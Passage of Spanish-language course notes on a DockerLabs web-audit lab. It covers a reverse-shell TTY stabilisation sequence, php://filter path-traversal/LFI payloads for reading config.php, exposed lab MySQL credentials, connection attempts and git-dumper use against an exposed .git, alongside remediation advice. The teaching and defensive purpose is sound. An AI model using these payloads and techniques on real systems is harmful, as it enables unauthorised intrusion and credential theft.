| script -c bash /dev/null # pulsar Ctrl+Z stty raw -echo reset xterm export TERM=xterm export SHELL=bash stty rows 49 columns 210 |

|  |
| --- |
| **Ampliación técnica** En el flujo habitual se ejecuta fg después de stty raw -echo para devolver netcat al primer plano. Ese comando no consta de forma legible en la transcripción, por lo que se explica aquí sin presentarlo como ejecución confirmada. |

| **Paso** | **Qué resuelve** |
| --- | --- |
| script -c bash /dev/null | Crea una sesión con pseudo-terminal en el host comprometido. |
| Ctrl+Z y stty raw -echo | Suspende temporalmente la conexión y prepara el terminal local para pasar señales y caracteres sin eco. |
| fg — ampliación | Paso habitual para devolver netcat al primer plano; no se atribuye como comando capturado en clase. |
| reset xterm | Reinicializa la terminal y selecciona un tipo compatible. |
| TERM y SHELL | Declara capacidades de terminal y shell para herramientas interactivas. |
| stty rows/columns | Ajusta el tamaño remoto al terminal local y evita salidas mal formateadas. |

# 11 H-06 Path Traversal y LFI

**CONTENIDO DE CLASE**

En la sección Acerca de se identificó un parámetro file. Al modificarlo con secuencias ../ se pudo salir del directorio esperado y solicitar archivos locales. Esa capacidad se encadenó con php://filter para leer el código fuente de config.php sin que PHP lo ejecutara.

| **Concepto** | **Definición en este caso** | **Relación** |
| --- | --- | --- |
| Path Traversal | Manipulación de la ruta para escapar del directorio previsto mediante ../ u otras variantes. | Permite alcanzar una ruta local no autorizada. |
| LFI | La aplicación lee o incluye un archivo local controlado a través del parámetro. | Materializa la lectura de recursos del servidor. |
| php://filter | Wrapper de PHP que transforma un recurso al leerlo. | Permite obtener el código de un PHP como texto transformado. |

|  |
| --- |
| **Cadena de razonamiento** phpinfo reveló DocumentRoot=/var/www/html. Esa información permitió construir la ruta absoluta /var/www/html/config.php para el filtro. Un hallazgo informativo alimentó después uno crítico. |

## Prueba con conversión de codificación

**Payload registrado**

|  |
| --- |
| php://filter/convert.iconv.UTF8.UTF16/resource=/var/www/html/config.php |

La salida comenzó con caracteres de marca de orden de bytes y mostró acentos dañados. Aun así, se observó el código PHP y la contraseña. El ruido se explica por interpretar directamente bytes UTF-16 como si fueran texto de otra codificación.

## Método base64

**Forma canónica para transportar el código como texto base64**

|  |
| --- |
| php://filter/convert.base64-encode/resource=/var/www/html/config.php |

**Cadena y decodificación registradas**

|  |
| --- |
| echo 'PD9waHAKJHNlcnZlcm5hbWUgPSAibG9jYWxob3N0IjsKJHVzZXJuYW1lID0gInJvb3QiOyAvLyAKJHBhc3N3b3JkID0gImxhY29udHJhbWFzcG9kZXJvc2FkZXRvZGFzIjsgCiRkYm5hbWUgPSAiR09CX0JEIjsKCi8vIENyZWFyIGNvbmV4acOzbgokY29ubiA9IG5ldyBteXNxbGkoJHNlcnZlcm5hbWUsICR1c2VybmFtZSwgJHBhc3N3b3JkLCAkZGJuYW1lKTsKCi8vIENvbXByb2JhciBjb25leGnDs24KaWYgKCRjb25uLT5jb25uZWN0X2Vycm9yKSB7CiAgICBkaWUoIkNvbmV4acOzbiBmYWxsaWRhOiAiIC4gJGNvbm4tPmNvbm5lY3RfZXJyb3IpOwp9Cj8' | base64 -d |

|  |
| --- |
| **Precisión del material** Se conserva la cadena base64 exactamente como fue aportada. Si al repetirla apareciera truncada o faltara padding, debe capturarse de nuevo desde la respuesta HTTP en lugar de completar caracteres por intuición. |

# 12 H-07 Credenciales MySQL expuestas

**CONTENIDO DE CLASE**

**Contenido relevante recuperado de config.php**

|  |
| --- |
| <?php $servername = "localhost"; $username = "root"; $password = "lacontramaspoderosadetodas"; $dbname = "GOB\_BD";  $conn = new mysqli($servername, $username, $password, $dbname); ?> |

| **Dato** | **Valor del laboratorio** |
| --- | --- |
| Servidor | localhost |
| Usuario | root |
| Contraseña | lacontramaspoderosadetodas |
| Base de datos | GOB\_BD |

|  |
| --- |
| **Dato sensible de laboratorio** La exposición fue valorada con 10/10 en clase. La contraseña no debe reutilizarse fuera de Report ni incorporarse a diccionarios dirigidos a terceros. |

Se intentó conectar al puerto 3306 desde Kali. Las variantes de SSL buscaban distinguir un fallo de negociación cifrada de un rechazo de autenticación o permisos. No quedó confirmado un acceso remoto exitoso a MySQL, de modo que el informe registra credencial expuesta y tentativa fallida, no compromiso de la base de datos.

**Intentos de conexión registrados**

|  |
| --- |
| mysql -h 172.17.0.2 -u root -p mysql -h 172.17.0.2 -u root -p --skip-ssl mysql -h 172.17.0.2 -u root -p --ssl=0 |

| **Corrección prioritaria** | **Aplicación** |
| --- | --- |
| Rotar el secreto | Invalidar inmediatamente la contraseña expuesta y cualquier reutilización. |
| Mínimo privilegio | La aplicación no debe usar root; crear una cuenta limitada a las operaciones necesarias en GOB\_BD. |
| Restringir red | Escuchar solo donde sea necesario y filtrar 3306; localhost si la aplicación y DB comparten host. |
| Gestión de secretos | Sacar credenciales del código y almacenarlas en un mecanismo protegido, con permisos y rotación. |
| Corregir la causa | Eliminar el LFI/traversal y evitar que wrappers o rutas arbitrarias lleguen a funciones de lectura/inclusión. |

# 13 H-08 Repositorio Git expuesto

**CONTENIDO DE CLASE**

La ruta http://realgob.dl/desarrollo/.git/ permitía listar metadatos internos de Git. Exponer .git puede revelar el código fuente actual, ramas, commits y objetos que ya no aparecen en el directorio de trabajo. Los secretos eliminados del último commit pueden seguir presentes en el historial.

**Evidencia real 6 — Listado accesible del directorio .git**

El navegador muestra Index of /desarrollo/.git/ y componentes internos como HEAD, config, objects y refs. El pie identifica Apache/2.4.58 (Ubuntu).

## Descarga controlada con git-dumper

**Secuencia registrada**

|  |
| --- |
| git clone https://github.com/arthaud/git-dumper.git cd git-dumper python3 -m venv venv source venv/bin/activate pip3 install -r requirements.txt python3 git\_dumper.py http://realgob.dl/desarrollo/.git/ dump |

La primera ejecución falló por ModuleNotFoundError: dulwich. Se creó un entorno virtual, se activó y se instalaron las dependencias del proyecto. El entorno virtual aísla los paquetes de Python del sistema y hace la práctica más reproducible.

**Evidencia real 7 — Preparación del entorno virtual de git-dumper**

La captura documenta la creación y activación de venv y la instalación de requirements tras el error de dependencia.

## Resultados recuperados

**Inspección mínima del repositorio descargado**

|  |
| --- |
| cd dump ls cat password.txt cat config.php |

**Evidencia real 8 — Repositorio descargado y secretos visibles**

git-dumper recupera el repositorio. password.txt contiene “dev\_admin - test” y el aviso “No olvidar borrar logs y actualizar la contrasena para el año actual”; config.php muestra password\_hash con “contrasenadeladministrador23”. Son datos expuestos; la clase no confirmó que funcionaran como credenciales activas.

|  |
| --- |
| **No sobredimensionar la prueba** Una cadena encontrada en un repositorio es un secreto expuesto o candidato, no una autenticación validada. Debe rotarse y revisarse su historial, pero el informe no afirma acceso si no se probó. |

## Corrección

- Bloquear .git y otros metadatos desde el servidor web y retirar el directorio publicado.
- Considerar comprometido todo secreto que haya estado versionado: eliminarlo del repositorio no basta; hay que rotarlo.
- Revisar historial, ramas, tags, artefactos de CI/CD y copias para localizar exposición adicional.
- Separar configuración sensible del código y aplicar controles preventivos en despliegue.

# 14 Cadenas de ataque

**CONTENIDO DE CLASE**

El valor principal de la sesión estuvo en relacionar hallazgos. Una auditoría no es una lista aislada de errores: un dato de configuración puede habilitar una ruta, una ruta puede revelar un secreto y ese secreto puede abrir un servicio.

|  |  |  |  |  |
| --- | --- | --- | --- | --- |
| **CADENA A** | phpinfo | **→** | DocumentRoot | → LFI de config.php |
| **CADENA B** | Carga débil | **→** | Webshell | → RCE / reverse shell |
| **CADENA C** | Traversal | **→** | php://filter | → credenciales MySQL |
| **CADENA D** | .git público | **→** | Código e historial | → secretos expuestos |
| **CADENA E** | Usuario válido | **→** | Lista de cuentas | → ataques de autenticación |

*Diagrama didáctico editable: relaciones de causa, mecanismo e impacto.*

## Cadena crítica principal

| **Paso** | **Hallazgo o acción** | **Resultado** |
| --- | --- | --- |
| 1 | Mapeo de /cargas.php y /uploads/ | Se localiza la superficie de subida y su ruta pública. |
| 2 | Manipulación de la petición multipart | Se supera el control y se almacena un PHP. |
| 3 | Invocación de la webshell con cmd | Se confirma ejecución con permisos de www-data. |
| 4 | Reverse shell hacia 172.17.0.1:4444 | Se obtiene un canal interactivo. |
| 5 | Estabilización de TTY | Se mejora la operatividad sin elevar privilegios. |

## Cadena de divulgación y secretos

| **Paso** | **Hallazgo o acción** | **Resultado** |
| --- | --- | --- |
| 1 | phpinfo revela /var/www/html | Se conoce una ruta absoluta fiable. |
| 2 | file acepta traversal/LFI | Se alcanza config.php. |
| 3 | php://filter transforma el recurso | El código PHP se obtiene sin ejecutarlo. |
| 4 | Decodificación base64 | Se recuperan usuario, contraseña y base de datos. |
| 5 | Prueba contra 3306 | No se confirma acceso remoto; permanece la exposición del secreto. |

# 15 Qué quería enseñar Carlos

**CONTENIDO DE CLASE**

**Pensar antes de lanzar herramientas.** La herramienta produce datos; el auditor decide qué pregunta intenta responder y qué evidencia necesita.

**Entender a la empresa y la aplicación.** Idioma, negocio, estructura y funciones deben influir en diccionarios, rutas y prioridades.

**Guardar información desde el inicio.** Un resultado no documentado se pierde. URL, petición, respuesta y contexto deben quedar registrados.

**Encadenar, no coleccionar.** phpinfo fue útil porque alimentó el LFI; la carga fue crítica porque terminó en RCE.

**Usar fuerza bruta al final.** Antes deben agotarse señales, rutas, código, configuraciones y lógica que reduzcan el espacio de búsqueda.

**Automatizar con criterio.** La automatización sirve para repetir y escalar tareas, pero debe recibir contexto, límites y revisión humana.

**La shell no es el final.** Después vienen estabilización, enumeración local, privilegios, persistencia controlada si está autorizada, limpieza y reporte.

**Explicar la causa.** Un informe útil no se limita a “funciona”: explica qué confianza falló y cómo corregirla.

**Capturar la URL visible.** La evidencia debe permitir localizar el activo y reproducir el comportamiento sin ambigüedad.

|  |
| --- |
| **Imagen mental de la sesión** Carlos marca el recorrido y Chema salta cada obstáculo: login, phpinfo, directorios, carga, webshell, LFI, secretos y .git. La portada convierte literalmente ese papel docente y operativo en una escena visual. |

# 16 Checklist reutilizable

**CONTENIDO DE CLASE**

| **Bloque** | **Comprobaciones** |
| --- | --- |
| Alcance | Activo, IP, dominio, autorización, horario, límites y reglas de parada. |
| Preparación | Carpetas de evidencias, reloj sincronizado, proxy, resolución de nombres y notas. |
| Red | Puertos, servicios, versiones, banners y exposición innecesaria. |
| Aplicación | Mapa de navegación, roles, registro, login, sesiones, entradas, cargas y descargas. |
| Contenido | Rutas, archivos, backups, listados, APIs, entornos de desarrollo y metadatos. |
| Validación | Hipótesis, prueba mínima, resultado esperado, resultado real y efecto lateral. |
| Evidencia | URL visible, petición/respuesta, captura legible, hora, comando y salida. |
| Informe | Causa, impacto, reproducibilidad, severidad razonada, mitigación y retest. |
| Cierre | Pendientes, secretos a rotar, artefactos creados y restauración del laboratorio. |

# 17 Herramientas y función

**CONTENIDO DE CLASE**

| **Herramienta** | **Uso en la sesión** | **Límite o precaución** |
| --- | --- | --- |
| Nmap | Enumeración de puertos y servicios. | T5 se justificó por ser laboratorio local. |
| Navegador | Comprensión funcional y reproducción visual. | No sustituye la inspección de la petición. |
| Gobuster | Descubrimiento de contenido con extensiones. | La lista debe adaptarse al objetivo y al alcance. |
| Burp Suite | Interceptar, repetir y modificar peticiones; preparar Intruder. | La captura concreta de Repeater es un intento denegado. |
| Netcat | Escucha de la reverse shell. | No cifra el tráfico; solo laboratorio controlado. |
| Python pty / script / stty | Estabilización de terminal. | Mejora interacción, no privilegios. |
| php://filter | Transformación del recurso leído por el LFI. | Es mecanismo de lectura, no la causa raíz. |
| Cliente MySQL | Prueba de credenciales contra 3306. | No hubo conexión exitosa confirmada. |
| git-dumper | Recuperación del repositorio .git publicado. | Debe usarse solo contra el activo autorizado. |
| venv / pip | Aislamiento e instalación de dependencias Python. | Guardar requirements y no contaminar el sistema. |

# 18 Resumen para estudiar

**CONTENIDO DE CLASE**

## Preguntas clave

**¿Por qué el mensaje “Contraseña incorrecta” puede ser vulnerable?** Porque, si solo aparece para usuarios existentes, confirma cuentas válidas y habilita enumeración.

**¿Por qué phpinfo fue importante?** Porque expuso versiones y rutas, incluido DocumentRoot, que sirvieron para construir la lectura de config.php.

**¿Por qué Content-Type no valida por sí solo?** Porque lo controla el cliente y Burp permite modificarlo antes de que llegue al servidor.

**¿Qué diferencia hay entre carga insegura y RCE?** La primera es la causa que permite alojar el archivo; RCE es el impacto cuando ese archivo ejecuta comandos.

**¿Qué aporta una reverse shell?** Un canal interactivo iniciado desde la víctima hacia el auditor, útil cuando la webshell es incómoda.

**¿Path Traversal y LFI son lo mismo?** No. Traversal manipula la ruta para salir del directorio esperado; LFI hace que la aplicación lea o incluya el archivo local.

**¿Por qué base64 ayuda a leer PHP?** Transporta los bytes del código como texto y evita que el contenido se interprete directamente como PHP en la respuesta.

**¿Una contraseña encontrada equivale a acceso?** No. Es un secreto expuesto; solo una autenticación válida y documentada confirma acceso.

**¿Por qué .git es peligroso aunque no haya un ZIP?** Porque sus objetos permiten reconstruir código e historial, incluidos datos retirados del árbol actual.

**¿Qué quedó pendiente?** XSS, SQLi, escalada de privilegios y validación de algunas rutas/credenciales.

## Errores que deben evitarse en el examen o el informe

- Llamar “inyección de comandos” a toda la cadena sin explicar que primero se subió una webshell.
- Presentar la captura del Repeater como bypass exitoso cuando su respuesta visible es de rechazo.
- Afirmar que MySQL fue comprometido; lo demostrado fue la exposición de credenciales y una conexión remota fallida.
- Dar una puntuación de clase como si fuera CVSS calculado.
- Confundir un listado de directorios con la sensibilidad de los archivos listados.
- Dar por confirmadas SQLi, XSS o escalada porque la máquina pudiera contenerlas; quedaron fuera de esta sesión.

# 19 Pendientes y siguiente sesión

**CONTENIDO DE CLASE**

| **Pendiente** | **Estado** | **Próxima acción segura** |
| --- | --- | --- |
| Burp Intruder sobre login | Preparado; ejecución completa no documentada. | Usar listas pequeñas del laboratorio, limitar ritmo y registrar la señal exacta. |
| /database/ y /api/ | Rutas detectadas; contenido no detallado. | Inventariar respuestas y clasificar datos sin asumir sensibilidad. |
| Ruta exacta de la reverse shell | La nota contiene /shell.php inconsistente. | Confirmar el nombre real del archivo y conservar petición/respuesta. |
| Credenciales MySQL | Expuestas; acceso remoto no confirmado. | Revisar host permitido, privilegios y servicio desde el contexto autorizado. |
| XSS | No trabajado. | Mapear entradas y contextos de salida antes de probar payloads. |
| SQL Injection | No trabajada. | Identificar parámetros y respuestas; validar de forma controlada. |
| Escalada de privilegios | No trabajada. | Enumeración local metódica solo si el alcance lo permite. |
| Retest | Pendiente. | Aplicar mitigaciones y demostrar que cada reproducción deja de funcionar. |

# 20 Ampliación técnica

**AMPLIACIÓN TÉCNICA EXTERNA**

Las siguientes notas amplían lo visto sin atribuirlas a Carlos como contenido literal de clase. Se apoyan en documentación primaria y sirven para convertir el laboratorio en un procedimiento profesional.

## Carga de archivos en defensa en profundidad

Una defensa robusta combina allowlist de extensiones, validación del tipo real, renombrado generado por el servidor, límites de tamaño, permisos mínimos, análisis del contenido y almacenamiento fuera del webroot. Ningún control aislado, incluidos Content-Type o magic bytes, ofrece garantía suficiente.

## php://filter como metawrapper

La documentación de PHP define php://filter como un mecanismo para aplicar filtros al abrir un stream. En la sintaxis usada, resource indica el recurso que se filtrará y debe colocarse al final. Los filtros convert.base64-encode y convert.iconv permiten transformar la representación sin cambiar la causa raíz: la aplicación sigue aceptando un recurso no autorizado.

## Publicación accidental de .git

El riesgo no se limita a archivos visibles mediante autoindex. Si el servidor entrega objetos de Git por HTTP, una herramienta puede reconstruir el repositorio incluso cuando el listado esté desactivado. Por eso la mitigación debe bloquear la ruta y corregir el proceso de despliegue, no solo ocultar el índice.

## Fuentes primarias y material del laboratorio

- [DockerLabs — máquina Report](https://dockerlabs.es/maquinas/8/descargar) — https://dockerlabs.es/maquinas/8/descargar
- [Descarga directa del laboratorio Report](https://gestion-maquinas.dockerlabs.es/dl/report.zip) — https://gestion-maquinas.dockerlabs.es/dl/report.zip
- [Nmap Reference Guide](https://nmap.org/book/man.html) — https://nmap.org/book/man.html
- [PortSwigger — Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder) — https://portswigger.net/burp/documentation/desktop/tools/intruder
- [PHP — wrappers y protocolos](https://www.php.net/manual/en/wrappers.php.php) — https://www.php.net/manual/en/wrappers.php.php
- [PHP — filtros de conversión](https://www.php.net/manual/en/filters.convert.php) — https://www.php.net/manual/en/filters.convert.php
- [OWASP — File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html) — https://cheatsheetseries.owasp.org/cheatsheets/File\_Upload\_Cheat\_Sheet.html
- [Apache HTTP Server — mod\_autoindex](https://httpd.apache.org/docs/2.4/mod/mod_autoindex.html) — https://httpd.apache.org/docs/2.4/mod/mod\_autoindex.html
- [Python — venv](https://docs.python.org/3/library/venv.html) — https://docs.python.org/3/library/venv.html
- [git-dumper — repositorio oficial](https://github.com/arthaud/git-dumper) — https://github.com/arthaud/git-dumper
- [MariaDB — cliente de línea de comandos](https://mariadb.com/docs/server/clients-and-utilities/mariadb-client/mariadb-command-line-client) — https://mariadb.com/docs/server/clients-and-utilities/mariadb-client/mariadb-command-line-client

# 21 Glosario

**CONTENIDO DE CLASE**

| **Término** | **Definición** |
| --- | --- |
| Enumeración de usuarios | Obtención de una señal que permite diferenciar cuentas existentes de inexistentes. |
| Fuzzing de contenido | Prueba automatizada de nombres o valores para descubrir rutas y comportamientos. |
| Directory Listing | Generación de un índice navegable con archivos y carpetas del directorio. |
| Webshell | Script web que acepta instrucciones y ejecuta acciones en el servidor. |
| RCE | Capacidad de ejecutar código o comandos de forma remota en el sistema objetivo. |
| Reverse shell | Shell iniciada desde el objetivo hacia un listener controlado por el auditor. |
| Path Traversal | Manipulación de rutas para salir del directorio autorizado. |
| LFI | Lectura o inclusión de archivos locales a través de una entrada controlable. |
| Wrapper de PHP | Esquema que permite acceder o transformar streams mediante una URL especial. |
| Secret sprawl | Dispersión de secretos por código, historial, archivos, logs o pipelines. |
| Retest | Repetición controlada de la prueba después de corregir para verificar la mitigación. |

# 22 Actualización de memoria del proyecto

**CONTENIDO DE CLASE**

Registro preparado para incorporar esta sesión a la memoria de Apuntes Máster sin sobrescribir las reglas permanentes anteriores.

| **Campo** | **Actualización** |
| --- | --- |
| Sesión | 18/09/2026 — Report — Auditoría web completa. |
| Profesor | Carlos Castillo Sanjuan; usar 01-Carlos-Castillo.jpeg como referencia visual principal. |
| Portada | Carlos guía a Chema mientras supera obstáculos que representan las vulnerabilidades de Report. |
| Página 1 | Exclusivamente la portada completa. |
| Página 2 | Esquema visual creado con tabla, celdas, colores y texto editables de Word. |
| Contenido principal | Metodología, Nmap, mapeo web, enumeración de usuarios, phpinfo, listados, carga insegura, webshell, RCE, reverse shell, TTY, traversal/LFI, php://filter, credenciales MySQL y .git expuesto. |
| Regla de evidencia | Capturas reales rotuladas como Evidencia real; diagramas de síntesis como Diagrama didáctico. |
| Regla de exactitud | Distinguir intento denegado, éxito confirmado por transcripción, dato expuesto y acceso no validado. |
| Severidades | Conservar cifras de clase como orientativas y separarlas de CVSS formal. |
| Pendientes | XSS, SQLi, escalada, contenido de /database/ y /api/, ruta exacta de reverse shell y retest. |

|  |
| --- |
| **Cierre** La práctica no termina al conseguir una shell. Termina cuando el auditor puede explicar qué ocurrió, demostrarlo con precisión, limitar lo que no se confirmó y proponer una corrección verificable. |
